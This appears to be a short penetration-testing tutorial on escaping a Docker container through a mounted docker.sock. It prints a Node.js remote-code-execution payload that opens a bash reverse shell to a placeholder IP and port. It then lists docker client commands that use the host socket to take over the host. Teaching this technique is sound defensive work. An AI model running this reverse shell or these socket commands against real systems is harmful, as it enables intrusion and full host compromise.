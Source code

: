```yaml
---
description: Attacking volume mounts
---
```


# Volume Mounts

### Volume Mounts

If, an attacker would be able to exploit an application-level vulnerability, for example a NodeJS application using remote code execution to gain a reverse shell, then they would check into using the volume mounted `docker.sock` to gain privileges in the host system with docker runtime. 

Exploiting the RCE

```text
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/x.x.x.x/5555 0>%261"')
```

Now that the attacker has:

* Shell inside the docker container, they can explore the container for post exploitation
* They see that `ls -l /var/run/docker.sock` is available and mounted from the host system.

> **This allows the attacker to access the host docker service using host option with docker client by using the UNIX socket**

* The docker client is already downloaded into the container and is at `/root/docker`

```text
cd /root/docker/
ls -l
```

* To access the host resource using the `docker.sock` UNIX socket, an attacker would run the following, giving full privilege over the host system.

```text
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
```

